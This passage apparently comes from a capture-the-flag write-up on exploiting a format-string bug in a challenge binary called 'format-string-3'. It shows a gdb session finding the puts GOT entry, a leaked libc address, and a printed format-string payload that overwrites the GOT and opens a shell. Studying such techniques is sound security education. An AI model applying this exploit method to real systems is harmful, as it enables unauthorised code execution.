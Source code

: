 ```python
   conn.interactive()
   

send_payload()
# find_offset()
```

First, we find the offset of the **stack arguments** where our input starts, using `find_offset()`, which is **38**.
Then, we find the address of the `puts@got.plt` entry in the program.  

I will do this using `gdb`.  
- I set a breakpoint at `puts@plt`
- Run the program
- Disassemble when it pauses

```
(gdb) b puts@plt
Breakpoint 1 at 0x401080
(gdb) r
Starting program: /home/george/Downloads/format-string-3 
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.

Breakpoint 1, 0x0000000000401080 in puts@plt ()
(gdb) disas
Dump of assembler code for function puts@plt:
=> 0x0000000000401080 <+0>:	endbr64
   0x0000000000401084 <+4>:	bnd jmp *0x2f8d(%rip)        # 0x404018 <puts@got.plt>
   0x000000000040108b <+11>:	nopl   0x0(%rax,%rax,1)
End of assembler dump.
```

We see the jump inside `puts@plt`, which `gdb` calculates and says it is **0x404018**.

With all this, our script is **ready**.  
It **extracts** the `setvbuf` address from the output, **increments** it by **0x60440** like we calculated, **crafts** the payload and **sends** it.  

Now we can **run** it

```
[+] Starting local process './format-string-3': pid 27426
b'Howdy gamers!\n'
0x7f7380741830
b'%48c%46$lln%67c%47$hhnc%48$hhn%11c%49$hhnc%50$hhn%152c%51$hhnaaa\x18@@\x00\x00\x00\x00\x00\x1c@@\x00\x00\x00\x00\x00\x1a@@\x00\x00\x00\x00\x00\x1d@@\x00\x00\x00\x00\x00\x1b@@\x00\x00\x00\x00\x00\x19@@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
                                               c                                                                  \x8bc          \xf0c                                                                                                                                                       \x01aaa\x18@@$  
$ 
```
